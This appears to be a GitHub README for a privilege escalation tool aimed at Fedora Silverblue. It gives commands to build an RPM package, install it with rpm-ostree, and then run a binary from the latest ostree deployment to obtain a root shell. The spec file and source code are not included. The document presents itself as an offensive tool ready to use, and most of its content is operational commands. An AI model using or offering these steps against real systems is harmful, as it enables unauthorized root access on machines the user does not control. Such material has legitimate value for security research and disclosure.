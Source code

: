 A Fedora Silverblue privilege escalation tool that uses `rpm-ostree`.

## Building

**Requirements:**

- `rpmbuild` (`dnf install rpmdevtools`)
- `gcc`
- `glibc-static`

```bash
rpmbuild --bb --define "_rpmdir $(pwd)" --define "_rpmfilename privesc.rpm" privesc.spec
```
This generates `privesc.rpm` in the current directory.

## Usage

```bash
# Layer package
rpm-ostree install privesc.rpm
# Enter root shell
"$(ls -td /ostree/deploy/fedora/deploy/*/ | head -1)"/usr/bin/privesc
```
